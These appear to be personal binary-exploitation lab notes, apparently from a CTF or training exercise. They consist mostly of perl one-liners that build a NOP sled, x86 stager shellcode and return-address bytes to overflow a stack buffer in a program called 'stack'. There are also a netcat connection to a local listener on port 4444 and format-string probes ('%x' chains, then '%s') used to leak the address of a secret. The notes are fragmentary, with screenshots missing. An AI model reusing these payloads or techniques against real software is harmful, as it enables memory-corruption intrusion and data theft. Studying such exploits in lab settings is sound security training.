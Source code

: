 
![[Pasted image 20250823145255.png]]



```
nc -nv 10.0.2.15 4444
```



```
run $(perl -e 'print"\x90"x10,"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x03\xbb\x00\x00\x00\x00\x89\xe1\xba\x44\x00\x00\x00\xcd\x80\xff\xe1","\x20\xcd\xff\xff"x2')
``` 

run $(perl -e 'print"\x90"x10,"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x03\xbb\x00\x00\x00\x00\x89\xe1\xba\x44\x00\x00\x00\xcd\x80\xff\xe4","\x00\xcd\xff\xff"x2')



\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x03\xbb\x00\x00\x00\x00\x89\xe1\xba\x44\x00\x00\x00\xcd\x80\xff\xe4


#### Payload stage 1


"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x03\xbb\x00\x00\x00\x00\x89\xe1\xba\x44\x00\x00\x00\xcd\x80\xff\xe4"


cat step.bin | ./stack $(perl -e 'print "\x90"x10, "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x03\xbb\x00\x00\x00\x00\x89\xe1\xba\x44\x00\x00\x00\xcd\x80\xff\xe4", "\x00\xcd\xff\xff"')


run $(perl -e 'print "\x90"x10, "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x03\xbb\x00\x00\x00\x00\x89\xe1\xba\x44\x00\x00\x00\xcd\x80\xff\xe4", "\x20\xcd\xff\xff"')




perl -e 'print "\x90"x10, "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x03\xbb\x00\x00\x00\x00\x89\xe1\xba\x44\x00\x00\x00\xcd\x80\xff\xe4", "\x20\xcd\xff\xff"' > step1.bin        



#### Format String Vuln

AAAAAAAAA %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x

![[Pasted image 20250828114855.png]]

suspicious about 55555592a0 -> 23rd arg

AAAAAAAAA %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s

![[Pasted image 20250828115354.png]]
we got F -> 1st char of secret, then we can just know in code, that malloc happen before secret allocations
![[Pasted image 20250828115428.png]]
so we got address ffffdc60 -> our secret address (pointer to secret)
